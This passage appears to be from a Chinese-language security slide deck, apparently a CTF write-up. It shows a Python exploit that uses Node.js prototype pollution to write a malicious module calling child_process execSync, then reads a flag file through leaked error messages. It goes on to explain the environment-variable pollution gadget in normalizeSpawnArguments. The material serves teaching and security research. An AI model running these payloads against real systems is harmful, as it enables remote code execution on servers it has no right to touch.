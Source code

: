 ```python {all|8-9|11-14|16-21}{lines:true, maxHeight:'40%'}
payload = """process.mainModule.require("fs").writeFileSync("/tmp/rootxran.js", "function RCE( key ){ \\n const result = process.mainModule.require('child_process').execSync(`${key}`); \\n throw new Error(`Result leak from Error: ${result.toString()}`); \\n}\\n module.exports = RCE;");"""
r = s.post(target_url + "/address", data={"addressId": "escapeFunction", "Fulladdress": payload})

# 执行命令读取flag
payload = """process.mainModule.require("/tmp/rootxran.js")("cat /tmp/flag_*");"""
r = s.post(target_url + "/address", data={"addressId": "escapeFunction", "Fulladdress": payload})
pattern = r'Result leak from Error: (.*?)<br><br>'
match = re.search(pattern, r.text, re.DOTALL)
print(match.group(1).strip())
```

<v-clicks at="1">

- 注册一个 `__proto__` 用户来污染原型链
- 在服务端写入恶意模块文件
- 通过错误信息泄露命令执行结果
- 最后用 `cat` 命令直接读取随机命名的 flag 文件

</v-clicks>

---

### Node.js 原型链污染到 RCE

如无特别说明，下述 Payload 均只在 Node.js <= 18 下有效。

- 假设存在以下真实 JavaScript 代码：

```javascript
const { execSync, fork } = require("child_process");

function clone(target) {
  return merge({}, target);
}

// 使用用户输入触发原型污染
// 后续章节将说明如何构造攻击载荷
clone(USERINPUT);

// 创建子进程时会调用污染环境变量的利用点
// 在当前目录创建 a_file.js 文件：`echo a=2 > a_file.js`
var proc = fork("a_file.js");
```

---

#### 通过环境变量实现原型链污染到 RCE

根据这篇[分析文章](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)，当使用 **`child_process`** 模块的某些方法（如 `fork` 或 `spawn`）创建子进程时，会调用 `normalizeSpawnArguments` 方法。这个方法存在一个**原型污染利用点**，可以通过污染环境变量来注入恶意代码：

```javascript
// 代码来自 Node.js 源码
var env = options.env || process.env;
var envPairs = [];
// ...
let envKeys = [];
// 这里会包含原型链上的属性
for (const key in env) {
  ArrayPrototypePush(envKeys, key);
}
// ...
for (const key of envKeys) {
  const value = env[key];
```